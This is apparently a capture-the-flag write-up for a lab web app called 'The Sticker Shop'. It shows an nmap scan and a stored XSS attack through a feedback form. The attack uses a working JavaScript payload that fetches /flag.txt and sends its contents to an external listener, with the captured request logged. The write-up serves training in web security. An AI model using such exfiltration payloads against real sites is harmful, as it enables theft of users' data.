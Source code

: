 ```yaml
---
title: "The Sticker Shop"
description: "Sticker shop web app with identified Cross-Site Scripting (XSS) vulnerability "
date: "2024-12-04"
image: "/images/00/sticker.png"
tags:
  - XSS
---
```


## Overview

During this Capture the Flag (CTF) challenge, the goal was to exploit vulnerabilities in **The Sticker Shop** web application. The primary vulnerability identified was **Cross-Site Scripting (XSS)**, which allowed the injection of malicious scripts, ultimately leading to the extraction of the flag located at `/flag.txt`.

---

## Network Scan

### Nmap Scan

A network scan was performed on the target machine at IP `10.10.181.208` to gather information about open ports and services. The following results were obtained:

```txt
$ nmap -A 10.10.181.208

Nmap Scan Results for 10.10.181.208

Host is up (0.24s latency).

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open http-proxy Werkzeug/3.0.1 Python/3.8.10

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done at Sat Nov 30 23:55:20 2024 -- 1 IP address (1 host up) scanned in 143.61 seconds

```

The scan revealed two open ports:

- **Port 22**: SSH service
- **Port 8080**: HTTP proxy service running on **Werkzeug/3.0.1** and **Python/3.8.10**

## Website Interaction

Upon visiting `http://10.10.181.208:8080`, the homepage displayed two stickers and their respective prices.

![Homepage](/images/00/home.png)

Efforts to access the **flag** at `/flag.txt` returned a **401 Unauthorized** status, indicating that the flag was secured and could not be accessed directly.

![Unauthorized](/images/00/unauth.png)

---

## Feedback Form and XSS Testing

![feedback](/images/00/feedback.png)

The application features a feedback form that allows users to submit comments. To test for **Cross-Site Scripting (XSS)** vulnerabilities, a simple payload was injected:

```html
<img src="http://10.8.84.12:8081/test" />
```

This payload attempts to load an image from an external server, allowing for the detection of improper input handling.

A basic HTTP server was set up at http://10.8.84.12:8081 to monitor incoming requests:

```bash
python3 -m http.server 8081

10.10.181.208 - - [04/Dec/2024 13:52:30] "GET / HTTP/1.1" 200 -
10.10.181.208 - - [04/Dec/2024 13:52:41] "GET / HTTP/1.1" 200 -
```

This confirmed that the site was vulnerable to XSS, as the payload was executed and the request was made to the server.

## Exploiting XSS to Steal Flag

![xss](/images/00/query.png)

The input field was vulnerable to XSS, allowing the injection of a JavaScript payload to fetch the contents of the `/flag.txt` file. Since only GET requests were allowed, the flag could not be directly posted but could be fetched and sent via a redirect.

The following JavaScript payload was crafted:

```js
<script>
  fetch('/flag.txt').then(response=>response.text()) .then(data=>{" "}
  {
    (window.location.href =
      "http://10.8.84.12:8081/?flag" + encodeURIComponent(data))
  }
  )
</script>
```

This script makes a GET request to /flag.txt, retrieves the flag, and redirects to an external server (http://10.8.84.12:8081), appending the flag as a URL parameter.

The payload was submitted through the feedback form, and the following request was captured on the server:

```python
10.10.181.208 - - [04/Dec/2024 14:05:41] "GET /?flag=THM%7B83789a69074f6364a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```
